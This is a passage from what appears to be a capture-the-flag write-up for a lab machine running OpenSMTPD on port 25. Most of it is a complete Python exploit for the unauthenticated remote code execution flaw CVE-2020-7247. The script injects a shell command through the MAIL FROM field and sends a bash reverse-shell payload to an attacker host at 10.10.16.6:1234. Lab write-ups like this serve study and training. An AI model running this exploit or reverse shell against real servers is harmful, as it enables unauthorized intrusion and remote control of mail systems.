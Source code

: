 We have just one port open at 25 which is SMTP. I lookup for any available exploits and we get an [unauthenticated RCE!](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/). The vulnerability was basically a command chaining due to the fact that the content of mail body were being supplied to a shell command.

But we needed to make some changes to the script first. We change the host, the command to execute and finally change the MAILTO from root to j.nakazawa .

```
import socket, time
import sys
#https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
#HOST = input("what is the ip address of the host?: ")   # The remote host , gimme as raw_input
HOST="10.241.251.113"
PORT = 25              # smtp port
s = None
#writeto = input("Which file do you want to write to?: ")#raw inputen
#writewhat = input("What do you want to write to the file?: ")
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n 
#c\r\n
#d\r\n
bash -c 'bash -i >& /dev/tcp/10.10.16.6/1234 0>&1'
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
	data = s.recv(1024)
	print('Received', repr(data))
	time.sleep(1)
	print('sending')
	s.send(b"helo realcorp.htb\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
	time.sleep(1)
	data = s.recv(1024)
	print('Received', repr(data))
```